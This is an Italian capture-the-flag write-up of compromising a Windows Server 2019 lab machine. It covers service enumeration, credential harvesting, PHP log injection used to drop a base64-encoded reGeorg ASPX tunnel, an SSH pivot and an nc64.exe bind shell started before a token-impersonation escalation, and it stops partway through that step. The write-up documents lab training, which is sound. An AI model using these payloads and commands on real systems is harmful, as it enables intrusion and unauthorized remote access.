

# Writeup CTF 4 Marzo 2020

## VM Check & Enumerazione dei servizi
Dopo aver avviato la VM procediamo ad identificare l'IP della stessa (192.168.178.133 per questo writeup) ed iniziamo cercando i servizi esposti dalla box

```
$ nmap -sS -n -v 192.168.178.133

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-03 21:02 CET
Initiating Ping Scan at 21:02
[...]
Nmap scan report for 192.168.178.133
Host is up (0.00053s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
[...]
```

Sempre utilizzando nmap, prendiamo i banner dei servizi per avere informazioni sulle versioni. Non c’è niente di particolarmente strano, quindi possiamo procedure esplorando l’applicazione web che gira sulla porta 80 (per RDP – porta 3389 – avremmo bisogno di credenziali)

```
$ nmap -sS -n -v -sV 192.168.178.133

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-03 21:04 CET
[...
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
[...]
```

## Web Service Enumeration
Mentre, utilizzando il browser esploriamo l’applicazione web, lanciamo in background il fuzzing di directory e file

```
$ dirsearch -t 10 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://192.168.178.133/ -e asp,aspx,php,html

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: asp, aspx, php, html | Threads: 10 | Wordlist size: 207627

Error Log: /usr/share/dirsearch/logs/errors-20-03-03_21-07-28.log

Target: http://192.168.178.133/

[21:07:28] Starting: 
[21:07:28] 200 -    4KB - /
[21:07:29] 301 -  150B  - /img  ->  http://192.168.178.133/img/
[21:07:29] 301 -  150B  - /css  ->  http://192.168.178.133/css/
[21:07:30] 301 -  149B  - /js  ->  http://192.168.178.133/js/
[21:07:32] 301 -  151B  - /logs  ->  http://192.168.178.133/logs/
[21:07:35] 301 -  153B  - /sounds  ->  http://192.168.178.133/sounds/
[21:07:41] 400 -    3KB - /%2Acheckout%2A
[21:08:00] 400 -    3KB - /%2Adocroot%2A
[21:08:02] 400 -    3KB - /%2A
[21:08:18] 400 -    3KB - /http%3a%2f%2fwww
[21:08:38] 400 -    3KB - /http%3a
```

```
$ dirsearch -t 10 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://192.168.178.133/ -f -e asp,aspx,php,html

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: asp, aspx, php, html | Threads: 10 | Wordlist size: 1038134

Error Log: /usr/share/dirsearch/logs/errors-20-03-03_21-07-39.log

Target: http://192.168.178.133/

[21:07:39] Starting: 
[21:07:39] 200 -    4KB - /index.html
[21:07:39] 403 -    1KB - /img/
[21:07:40] 200 -  640B  - /login.php
[21:07:40] 200 -    0B  - /info.php
[21:07:42] 200 -    0B  - /clear.php
[21:07:46] 403 -    1KB - /css/
[21:07:51] 403 -    1KB - /js/
[21:07:56] 200 -    0B  - /check.php
[21:08:07] 403 -    1KB - /logs/
[21:08:15] 200 -  373KB - /sessions.html
[21:08:30] 403 -    1KB - /sounds/
```

Guardando le varie pagine che vengono fuori, notiamo che sessions.html contiene diverse credenziali....tutte uguali tra loro


Proviamo ad estrarre i valori univoci di Username e Password

```
goku - tontochilegge
admin - .YKz4T8ZfhW.
tonto - tontochilegge
tonto - chilegge
admin - admin
goku - .K4m3hAMeHA
```

Un esempio di script per estrarre questi valori

```
import re
import requests

r = requests.get('http://192.168.178.133/sessions.html')
data = r.text.split("\n")

s = set()

for l in data[:-1]:
    u = re.search(r'Username: ([\w.]+)', l).group(1)
    p = re.search(r'Password: ([\w.]+)', l).group(1)
    s.add((u,p))

print s
```

Usando admin/admin su login.php ci ritroviamo in una pagina che mostra i tentativi di login


Da notare la url che contiene il path al file di log (#<path_to_log>). Proviamo ad iniettare del codice php poiché probabilmente check.php utilizza la funzione include() per mostrare il file di log

```
POST /login.php HTTP/1.1
Host: 192.168.178.133
Content-Length: 73
Cache-Control: max-age=0
Origin: http://192.168.178.133
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.178.133/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=47832fe78d77ce3ad5e38cc4c1e41de07c9b3d105002ca8b0711a0b3c46e8ac4
Connection: close

username=<?php echo "decoder_loves_meterpreter!"?>&password=admin&submit=
```

Andando a visitare nuovamente check.php possiamo verificare che il codice iniettato è stato effettivamente eseguito


## Command Injection Exploitation and Foothold
Senza dilungarci troppo, si arriva alla conclusione che non c’è possibilità di eseguire direttamente comandi sul sistema operativo e quindi risulta inutile provare a far funzionare una webshell (in realtà almeno un modo c’è!). In ogni caso, proviamo a caricare [reGeorg](https://github.com/sensepost/reGeorg) (aspx poiché molte funzioni php sono inibite) per poter capire se ci sono servizi in ascolto solo sull’interfaccia locale. 

Il payload da utilizzare sarà il seguente

```
<?php $str = 'PCVAIFBhZ2UgTGFuZ3VhZ2U9IkMjIiBFbmFibGVTZXNzaW9uU3RhdGU9IlRydWUiJT4KPCVAIEltcG9ydCBOYW1lc3BhY2U9IlN5c3RlbS5OZXQiICU+CjwlQCBJbXBvcnQgTmFtZXNwYWNlPSJTeXN0ZW0uTmV0LlNvY2tldHMiICU+CjwlCgogICAgdHJ5CiAgICB7CiAgICAgICAgaWYgKFJlcXVlc3QuSHR0cE1ldGhvZCA9PSAiUE9TVCIpCiAgICAgICAgewogICAgICAgICAgICAvL1N0cmluZyBjbWQgPSBSZXF1ZXN0LkhlYWRlcnMuR2V0KCJYLUNNRCIpOwogICAgICAgICAgICBTdHJpbmcgY21kID0gUmVxdWVzdC5RdWVyeVN0cmluZy5HZXQoImNtZCIpLlRvVXBwZXIoKTsKICAgICAgICAgICAgaWYgKGNtZCA9PSAiQ09OTkVDVCIpCiAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgIHRyeQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFN0cmluZyB0YXJnZXQgPSBSZXF1ZXN0LlF1ZXJ5U3RyaW5nLkdldCgidGFyZ2V0IikuVG9VcHBlcigpOwogICAgICAgICAgICAgICAgICAgIC8vUmVxdWVzdC5IZWFkZXJzLkdldCgiWC1UQVJHRVQiKTsKICAgICAgICAgICAgICAgICAgICBpbnQgcG9ydCA9IGludC5QYXJzZShSZXF1ZXN0LlF1ZXJ5U3RyaW5nLkdldCgicG9ydCIpKTsKICAgICAgICAgICAgICAgICAgICAvL1JlcXVlc3QuSGVhZGVycy5HZXQoIlgtUE9SVCIpKTsKICAgICAgICAgICAgICAgICAgICBJUEFkZHJlc3MgaXAgPSBJUEFkZHJlc3MuUGFyc2UodGFyZ2V0KTsKICAgICAgICAgICAgICAgICAgICBTeXN0ZW0uTmV0LklQRW5kUG9pbnQgcmVtb3RlRVAgPSBuZXcgSVBFbmRQb2ludChpcCwgcG9ydCk7CiAgICAgICAgICAgICAgICAgICAgU29ja2V0IHNlbmRlciA9IG5ldyBTb2NrZXQoQWRkcmVzc0ZhbWlseS5JbnRlck5ldHdvcmssIFNvY2tldFR5cGUuU3RyZWFtLCBQcm90b2NvbFR5cGUuVGNwKTsKICAgICAgICAgICAgICAgICAgICBzZW5kZXIuQ29ubmVjdChyZW1vdGVFUCk7CiAgICAgICAgICAgICAgICAgICAgc2VuZGVyLkJsb2NraW5nID0gZmFsc2U7CiAgICAgICAgICAgICAgICAgICAgU2Vzc2lvbi5BZGQoInNvY2tldCIsIHNlbmRlcik7CiAgICAgICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgY2F0Y2ggKEV4Y2VwdGlvbiBleCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleC5NZXNzYWdlKTsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgICAgICBlbHNlIGlmIChjbWQgPT0gIkRJU0NPTk5FQ1QiKQogICAgICAgICAgICB7CiAgICAgICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgICAgIFNvY2tldCBzID0gKFNvY2tldClTZXNzaW9uWyJzb2NrZXQiXTsKICAgICAgICAgICAgICAgICAgICBzLkNsb3NlKCk7CiAgICAgICAgICAgICAgICB9IGNhdGNoIChFeGNlcHRpb24gZXgpewoKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgIFNlc3Npb24uQWJhbmRvbigpOwogICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICB9CiAgICAgICAgICAgIGVsc2UgaWYgKGNtZCA9PSAiRk9SV0FSRCIpCiAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgIFNvY2tldCBzID0gKFNvY2tldClTZXNzaW9uWyJzb2NrZXQiXTsKICAgICAgICAgICAgICAgIHRyeQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIGludCBidWZmTGVuID0gUmVxdWVzdC5Db250ZW50TGVuZ3RoOwogICAgICAgICAgICAgICAgICAgIGJ5dGVbXSBidWZmID0gbmV3IGJ5dGVbYnVmZkxlbl07CiAgICAgICAgICAgICAgICAgICAgaW50IGMgPSAwOwogICAgICAgICAgICAgICAgICAgIHdoaWxlICgoYyA9IFJlcXVlc3QuSW5wdXRTdHJlYW0uUmVhZChidWZmLCAwLCBidWZmLkxlbmd0aCkpID4gMCkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIHMuU2VuZChidWZmKTsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgY2F0Y2ggKEV4Y2VwdGlvbiBleCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleC5NZXNzYWdlKTsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgICAgICBlbHNlIGlmIChjbWQgPT0gIlJFQUQiKQogICAgICAgICAgICB7CiAgICAgICAgICAgICAgICBTb2NrZXQgcyA9IChTb2NrZXQpU2Vzc2lvblsic29ja2V0Il07CiAgICAgICAgICAgICAgICB0cnkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBpbnQgYyA9IDA7CiAgICAgICAgICAgICAgICAgICAgYnl0ZVtdIHJlYWRCdWZmID0gbmV3IGJ5dGVbNTEyXTsKICAgICAgICAgICAgICAgICAgICB0cnkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIHdoaWxlICgoYyA9IHMuUmVjZWl2ZShyZWFkQnVmZikpID4gMCkKICAgICAgICAgICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgICAgICAgICAgYnl0ZVtdIG5ld0J1ZmYgPSBuZXcgYnl0ZVtjXTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIC8vQXJyYXkuQ29uc3RyYWluZWRDb3B5KHJlYWRCdWZmLCAwLCBuZXdCdWZmLCAwLCBjKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIFN5c3RlbS5CdWZmZXIuQmxvY2tDb3B5KHJlYWRCdWZmLCAwLCBuZXdCdWZmLCAwLCBjKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkJpbmFyeVdyaXRlKG5ld0J1ZmYpOwogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1TVEFUVVMiLCAiT0siKTsKICAgICAgICAgICAgICAgICAgICB9ICAgICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgICAgICBjYXRjaCAoU29ja2V0RXhjZXB0aW9uIHNvZXgpCiAgICAgICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIk9LIik7CiAgICAgICAgICAgICAgICAgICAgICAgIHJldHVybjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICBjYXRjaCAoRXhjZXB0aW9uIGV4KQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1FUlJPUiIsIGV4Lk1lc3NhZ2UpOwogICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1TVEFUVVMiLCAiRkFJTCIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9IAogICAgICAgIH0gZWxzZSB7CiAgICAgICAgICAgIFJlc3BvbnNlLldyaXRlKCJHZW9yZyBzYXlzLCAnQWxsIHNlZW1zIGZpbmUnIik7CiAgICAgICAgfQogICAgfQogICAgY2F0Y2ggKEV4Y2VwdGlvbiBleEthaykKICAgIHsKICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleEthay5NZXNzYWdlKTsKICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgIH0KJT4=';file_put_contents('.\\Logs\\georgio.aspx', base64_decode($str) , LOCK_EX); ?>
```

```
POST /login.php HTTP/1.1
Host: 192.168.178.133
Content-Length: 73
Cache-Control: max-age=0
Origin: http://192.168.178.133
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.178.133/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Cookie: PHPSESSID=47832fe78d77ce3ad5e38cc4c1e41de07c9b3d105002ca8b0711a0b3c46e8ac4
Connection: close

username=<%3fphp+$str+%3d+'PCVAIFBhZ2UgTGFuZ3VhZ2U9IkMjIiBFbmFibGVTZXNzaW9uU3RhdGU9IlRydWUiJT4KPCVAIEltcG9ydCBOYW1lc3BhY2U9IlN5c3RlbS5OZXQiICU%2bCjwlQCBJbXBvcnQgTmFtZXNwYWNlPSJTeXN0ZW0uTmV0LlNvY2tldHMiICU%2bCjwlCgogICAgdHJ5CiAgICB7CiAgICAgICAgaWYgKFJlcXVlc3QuSHR0cE1ldGhvZCA9PSAiUE9TVCIpCiAgICAgICAgewogICAgICAgICAgICAvL1N0cmluZyBjbWQgPSBSZXF1ZXN0LkhlYWRlcnMuR2V0KCJYLUNNRCIpOwogICAgICAgICAgICBTdHJpbmcgY21kID0gUmVxdWVzdC5RdWVyeVN0cmluZy5HZXQoImNtZCIpLlRvVXBwZXIoKTsKICAgICAgICAgICAgaWYgKGNtZCA9PSAiQ09OTkVDVCIpCiAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgIHRyeQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFN0cmluZyB0YXJnZXQgPSBSZXF1ZXN0LlF1ZXJ5U3RyaW5nLkdldCgidGFyZ2V0IikuVG9VcHBlcigpOwogICAgICAgICAgICAgICAgICAgIC8vUmVxdWVzdC5IZWFkZXJzLkdldCgiWC1UQVJHRVQiKTsKICAgICAgICAgICAgICAgICAgICBpbnQgcG9ydCA9IGludC5QYXJzZShSZXF1ZXN0LlF1ZXJ5U3RyaW5nLkdldCgicG9ydCIpKTsKICAgICAgICAgICAgICAgICAgICAvL1JlcXVlc3QuSGVhZGVycy5HZXQoIlgtUE9SVCIpKTsKICAgICAgICAgICAgICAgICAgICBJUEFkZHJlc3MgaXAgPSBJUEFkZHJlc3MuUGFyc2UodGFyZ2V0KTsKICAgICAgICAgICAgICAgICAgICBTeXN0ZW0uTmV0LklQRW5kUG9pbnQgcmVtb3RlRVAgPSBuZXcgSVBFbmRQb2ludChpcCwgcG9ydCk7CiAgICAgICAgICAgICAgICAgICAgU29ja2V0IHNlbmRlciA9IG5ldyBTb2NrZXQoQWRkcmVzc0ZhbWlseS5JbnRlck5ldHdvcmssIFNvY2tldFR5cGUuU3RyZWFtLCBQcm90b2NvbFR5cGUuVGNwKTsKICAgICAgICAgICAgICAgICAgICBzZW5kZXIuQ29ubmVjdChyZW1vdGVFUCk7CiAgICAgICAgICAgICAgICAgICAgc2VuZGVyLkJsb2NraW5nID0gZmFsc2U7CiAgICAgICAgICAgICAgICAgICAgU2Vzc2lvbi5BZGQoInNvY2tldCIsIHNlbmRlcik7CiAgICAgICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgY2F0Y2ggKEV4Y2VwdGlvbiBleCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleC5NZXNzYWdlKTsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgICAgICBlbHNlIGlmIChjbWQgPT0gIkRJU0NPTk5FQ1QiKQogICAgICAgICAgICB7CiAgICAgICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgICAgIFNvY2tldCBzID0gKFNvY2tldClTZXNzaW9uWyJzb2NrZXQiXTsKICAgICAgICAgICAgICAgICAgICBzLkNsb3NlKCk7CiAgICAgICAgICAgICAgICB9IGNhdGNoIChFeGNlcHRpb24gZXgpewoKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgIFNlc3Npb24uQWJhbmRvbigpOwogICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICB9CiAgICAgICAgICAgIGVsc2UgaWYgKGNtZCA9PSAiRk9SV0FSRCIpCiAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgIFNvY2tldCBzID0gKFNvY2tldClTZXNzaW9uWyJzb2NrZXQiXTsKICAgICAgICAgICAgICAgIHRyeQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIGludCBidWZmTGVuID0gUmVxdWVzdC5Db250ZW50TGVuZ3RoOwogICAgICAgICAgICAgICAgICAgIGJ5dGVbXSBidWZmID0gbmV3IGJ5dGVbYnVmZkxlbl07CiAgICAgICAgICAgICAgICAgICAgaW50IGMgPSAwOwogICAgICAgICAgICAgICAgICAgIHdoaWxlICgoYyA9IFJlcXVlc3QuSW5wdXRTdHJlYW0uUmVhZChidWZmLCAwLCBidWZmLkxlbmd0aCkpID4gMCkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIHMuU2VuZChidWZmKTsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgUmVzcG9uc2UuQWRkSGVhZGVyKCJYLVNUQVRVUyIsICJPSyIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgY2F0Y2ggKEV4Y2VwdGlvbiBleCkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleC5NZXNzYWdlKTsKICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgfQogICAgICAgICAgICBlbHNlIGlmIChjbWQgPT0gIlJFQUQiKQogICAgICAgICAgICB7CiAgICAgICAgICAgICAgICBTb2NrZXQgcyA9IChTb2NrZXQpU2Vzc2lvblsic29ja2V0Il07CiAgICAgICAgICAgICAgICB0cnkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICAgICAgICAgICBpbnQgYyA9IDA7CiAgICAgICAgICAgICAgICAgICAgYnl0ZVtdIHJlYWRCdWZmID0gbmV3IGJ5dGVbNTEyXTsKICAgICAgICAgICAgICAgICAgICB0cnkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIHdoaWxlICgoYyA9IHMuUmVjZWl2ZShyZWFkQnVmZikpID4gMCkKICAgICAgICAgICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgICAgICAgICAgYnl0ZVtdIG5ld0J1ZmYgPSBuZXcgYnl0ZVtjXTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIC8vQXJyYXkuQ29uc3RyYWluZWRDb3B5KHJlYWRCdWZmLCAwLCBuZXdCdWZmLCAwLCBjKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIFN5c3RlbS5CdWZmZXIuQmxvY2tDb3B5KHJlYWRCdWZmLCAwLCBuZXdCdWZmLCAwLCBjKTsKICAgICAgICAgICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkJpbmFyeVdyaXRlKG5ld0J1ZmYpOwogICAgICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1TVEFUVVMiLCAiT0siKTsKICAgICAgICAgICAgICAgICAgICB9ICAgICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgICAgICBjYXRjaCAoU29ja2V0RXhjZXB0aW9uIHNvZXgpCiAgICAgICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIk9LIik7CiAgICAgICAgICAgICAgICAgICAgICAgIHJldHVybjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICBjYXRjaCAoRXhjZXB0aW9uIGV4KQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1FUlJPUiIsIGV4Lk1lc3NhZ2UpOwogICAgICAgICAgICAgICAgICAgIFJlc3BvbnNlLkFkZEhlYWRlcigiWC1TVEFUVVMiLCAiRkFJTCIpOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9IAogICAgICAgIH0gZWxzZSB7CiAgICAgICAgICAgIFJlc3BvbnNlLldyaXRlKCJHZW9yZyBzYXlzLCAnQWxsIHNlZW1zIGZpbmUnIik7CiAgICAgICAgfQogICAgfQogICAgY2F0Y2ggKEV4Y2VwdGlvbiBleEthaykKICAgIHsKICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtRVJST1IiLCBleEthay5NZXNzYWdlKTsKICAgICAgICBSZXNwb25zZS5BZGRIZWFkZXIoIlgtU1RBVFVTIiwgIkZBSUwiKTsKICAgIH0KJT4%3d'%3bfile_put_contents('.\\Logs\\georgio.aspx',+base64_decode($str)+,+LOCK_EX)%3b+%3f>&password=admin&submit=
```

A questo punto, visitiamo check.php per eseguire il payload e successivamente visitiamo /logs/georgio.aspx per verificare che il nostro payload sia stato creato con successo


A questo punto possiamo lanciare uno scan di porte (attraverso il proxy) per verificare se abbiamo servizi aggiuntivi

```
$ python reGeorgSocksProxy.py -u http://192.168.178.133/logs/georgio.aspx

    
                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad
  
   
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:
], tunnel at [http://192.168.178.133/logs/georgio.aspx]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

```
$ proxychains nmap -sT -n -v 127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-03 21:37 CET
Initiating Connect Scan at 21:37
Scanning 127.0.0.1 [1000 ports]
Discovered open port 22/tcp on 127.0.0.1
Discovered open port 135/tcp on 127.0.0.1
Discovered open port 80/tcp on 127.0.0.1
Discovered open port 3389/tcp on 127.0.0.1
Discovered open port 445/tcp on 127.0.0.1
Connect Scan Timing: About 3.60% done; ETC: 21:51 (0:13:50 remaining)
```

Provando le credenziali goku/.K4m3hAMeHA. trovate in precedenza sulla porta 22 (SSH) riusciamo ad ottenere una shell

```
$ proxychains ssh goku@127.0.0.1
ProxyChains-3.1 (http://proxychains.sf.net)
goku@127.0.0.1's password: .K4m3hAMeHA.
```

## System enumeration
Utilizziamo le credenziali per accedere in ssh e, dopo aver preso la flag user.txt, procediamo con il cercare informazioni utili per la privilege escalation

```
PS C:\users\goku> whoami
kaarot\goku

PS C:\users\goku> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeAssignPrimaryTokenPrivilege Replace a process level token  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

PS C:\users\goku> [System.Environment]::OSVersion.Version 

Major  Minor  Build  Revision 
-----  -----  -----  -------- 
10     0      17763  0    

PS C:\Users\goku> (Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion").ProductName
Windows Server 2019 Standard    
```

Siamo su un Windows Server 2019 ed abbiamo il privilegio SeAssignPrimaryTokenPrivilege (equivalente ad SeImpersonate). In aggiunta, andando a vedere nei documenti dell’utente troviamo un file notes.txt che evidenzia un aspetto interessante

```
... 
...
* All profiles
* GPO-Block-wscript
  * Custom Rule 
  * _%SystemRoot%\System32\wscript.exe_
  * Any protocols
  * Any ports
  * Any IP addresses
  * Block
  * All profiles
* GPO-Block-wscript
  * Custom Rule
  * _%SystemRoot%\Syswow64\wscript.exe_
  * Any protocols
  * Any ports
  * Any IP addresses
  * Block
  * All profiles

*  Current configuration tasks:
  * Install openssh
  * Disable useless WinRM
  * Configure openssh access
```

WinRM è disabilitato...possiamo provare ad usare [RogueWinRM](https://github.com/antonioCoco/RogueWinRM) ? [decoder](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/) avrebbe usato meterpreter...

## Privilege escalation
Da qui la privilege escalation è “straightforward”...se non fosse che dobbiamo utilizzare un po di ingegno per il fatto che non abbiamo una shell con [piene potenzialità](https://twitter.com/decoder_it/status/1124041826879660042?s=20). Infatti ssh fa un logon type 3 (network) quindi gli accessi wmi, service control manager, etc. sono considerato come remoti e solo un admin puo' utilizzarli. Utilizzando runas invece otterremo un accesso come local. Carichiamo nc64.exe e l’exploit sulla macchina

```
$ proxychains scp nc64.exe goku@127.0.0.1:/windows/temp/y/nc64.exe
ProxyChains-3.1 (http://proxychains.sf.net)
goku@127.0.0.1's password: 
nc64.exe                                               100%   43KB 205.3KB/s   00:00    

$ proxychains scp r.exe goku@127.0.0.1:/windows/temp/y/
ProxyChains-3.1 (http://proxychains.sf.net)
goku@127.0.0.1's password: 
r.exe                                                  100%  152KB 489.7KB/s   00:00
```

Possiamo quindi lanciare una bind shell che ci consentirà di eseguire l’exploit senza problemi

```
PS C:\windows\temp\y> runas /user:goku "C:\windows\temp\y\nc64.exe -e c:\windows\system32\cmd.exe -lp 6666"
Enter the password for goku:

Attempting to start C:\windows\temp\y\nc64.exe -e c:\windows\system32\cmd.exe -lp 6666 as user "KAAROT\goku" ...
```

Collegandoci a questa otteniamo una shell completa con utente goku (da ssh non avevo accesso a systeminfo)

```
$ proxychains nc 127.0.0.1 6666                                                                                                                        
ProxyChains-3.1 (http://proxychains.sf.net)                                                                                                                                         
Microsoft Windows [Version 10.0.17763.1039]                                                                                                                                         
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                
                                                                                                                                                                                    
C:\Windows\system32>whoami                                                                                                                                                          
whoami                                                                                                                                                                              
kaarot\goku                                                                                                                                                                         
                                                                                                                                                                                    
C:\Windows\system32>systeminfo                                                                                                                                                      
